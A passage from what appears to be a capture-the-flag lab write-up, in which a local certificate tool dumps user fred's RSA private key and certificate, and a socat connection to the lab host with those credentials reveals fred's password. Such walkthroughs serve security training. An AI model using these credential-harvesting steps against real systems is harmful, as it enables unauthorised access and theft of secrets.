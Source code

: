 * We can type `certutil fred fred` and get the information we need:
```
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA1+rIWuBCgbpHkBZzt+mqq+nT5aPtuBSmIK9ZsXoH/syHWbCy
n4l8B02LrK/AURD4T+6hXsJ4lRrvYB+6doDH7X9wwoOrRelz4+In7bzJeU+ymGhI
jiRQskJxtWL4+otIGyzwOrqg69FMNGDMA9+ejPlW2cuTXs0M/It3z4VZJipL0oLC
vRHW83ysut9KQ6dkUVEVcMS6p+28aeFO5R4xOqq5ALwq+QufQx97+2uSdfBoYDai
iQFJrritOwJ1RPTwQRO73EZKidHBJKSvRn8keqNg5vLvlRGTvCxAXYnGVVO8mH/v
w+w/7uV1nFGRMDNHSXKsKda/OtUIM4yhmnVDEQIDAQABAoIBAQDQ75b1qXFyC4pY
egF8hJbtSJYN7/WHXiPsGQLYZNf7zntjZUNUcjwc7QMuFdwqFhvTbX2mLtV0o93j
zJApQDE3N00sTTGds2y7pgsxWLA1vdN6+97J/YZBGV7jQWThPYqHEZNdoV87EwuE
2+5QCUJp9JYAp6hx4kag020a2VUNQbVikNGMqdUhZHCzjOZ6pcTncbjC1UErOYn8
PxdqoDoOtB7LbTKk0OHWWAtBAvJ9UnzozSwt9Q/QIu5U3ntnBN5NihnrCivcnisn
TTOG84uoxbK5hQRTG3/+yEsjh3Oonu69s/yRXZbOX+IF3hZvMW2RQrFuzhLmaB6l
S0HcByHJAoGBAPK1CNwZwj+hHi0Z3LkYUu/JYfV6vHT+RX1iUjun6WN9cGVb1WAp
4rOr6tbBSMQF3v+IR1idHidED7Ks3qBANyXxfVD9FSKhZxP20FcZWGPwCybGQA7m
ovkoklnZCJYOdZT8giyxPXfv+uyx4z56lJqDWFpE1wlbKVgSWmXrPa9TAoGBAOO+
INe0RpDbqttHRo2eaEscBbKB65yJ8STv5kDWwYt4A4KgDKgBMVaVK++SKN0MsDiG
5siSmSqt0eB0ZgyXAaJKEE/m6vx2LX8+UF99goUrDnCoo9ZnRg3+NaEBlW6SLqxq
HFnhA7JeApme4zV0TGEluStvTnvlhQ9+yJ6/h4uLAoGBAMlL0rxR9OS3KYL4hzNQ
9ECCQufJUxKpbVLvwApQWma0vAqk3tTyCF9CP/S7vDEwOWKwUZQyQ7cHYQmtDLvW
ZqbmoiwQq33cZdSOCP+kOsYwad9P4AM70IFb3/363n8uIOFfiEuu+K9H71Juu22v
Vx7LvvSnUb4lyKWOG0GamL+XAoGBAMPJTwjBlayw/Ch5FQFovjZcB9XXdUtlFydv
Ch6RwV/6M+JXX6oLJHRP166kk3a9kr110+94gC69seFpj9Wg+CmhzHY0ia2ylxh9
5LDDALMlOcvGXttSe1pKQaaB6wpcp71Xl7n5BKmRwmB4xNHOgl8+A/uAPBOtVH/m
uegntgpTAoGANpeLvU4B/TUr/ZU2E3wpmQ+WySOotOO1jglNmzUU+3Q5uYvmSElj
1/eInFFcuMgF5bqs/46V8j9kkTG8skAiuhUlO4gHc8RnR1rIPcZaf+zbS/7MqbTB
Pm5m9smcY7RcZJ1wXGCSwBovECFQxzmTbthxlWHVHQYrZrqImqvKboI=
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIICmDCCAYACAjA5MA0GCSqGSIb3DQEBCwUAMBQxEjAQBgNVBAMMCWxvY2FsaG9z
dDAeFw0yMjA4MjgwMTM5MjhaFw0yMjA4MjkwMTM5MjhaMA8xDTALBgNVBAMMBGZy
ZWQwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDX6sha4EKBukeQFnO3
6aqr6dPlo+24FKYgr1mxegf+zIdZsLKfiXwHTYusr8BREPhP7qFewniVGu9gH7p2
gMftf3DCg6tF6XPj4iftvMl5T7KYaEiOJFCyQnG1Yvj6i0gbLPA6uqDr0Uw0YMwD
356M+VbZy5NezQz8i3fPhVkmKkvSgsK9EdbzfKy630pDp2RRURVwxLqn7bxp4U7l
HjE6qrkAvCr5C59DH3v7a5J18GhgNqKJAUmuuK07AnVE9PBBE7vcRkqJ0cEkpK9G
fyR6o2Dm8u+VEZO8LEBdicZVU7yYf+/D7D/u5XWcUZEwM0dJcqwp1r861QgzjKGa
dUMRAgMBAAEwDQYJKoZIhvcNAQELBQADggEBALs2Vhswpy6own474kn/xeDUGzo/
UMN31Ija1YFq6YuhQxkyd1DDq1z8Gnp8L58uPPYvutA4xqMPwr3rctftBd+8kW9e
a76yTBLl8OUDNhX4j8CHAMArcbXxHBpizAhSUDwHbU8+gDWYj3Jf6QmLay6M+6qF
/lx62PnKyGpfiPdkRf+drfGuw50F68Y9j82DowRhqEn/5eAAy/oJ/X14GW3LWshP
z0qiBZ8w8WKpZlYcjwD4eUY77IFwA6wbU5D5Z+4kH6Sz5REcLGekQMmQibDrkZLf
p+gW8ZouWKjS1i3G0mueBrekETx5TZ5jnwAlO2O3hUZqxOzk3+FaZZ/hZaE=
-----END CERTIFICATE-----
```

* Now we can do the same thing as before to get the password:
`socat stdio ssl:10.10.108.130:54321,cert=fred.cert,key=fred.key,verify=0`
```bash
Welcome: 'fred' is authorized.
b3dr0ck> help
Password hint: YabbaDabbaD0000! (user = 'fred')
```
* Fred's password is `YabbaDabbaD0000!`
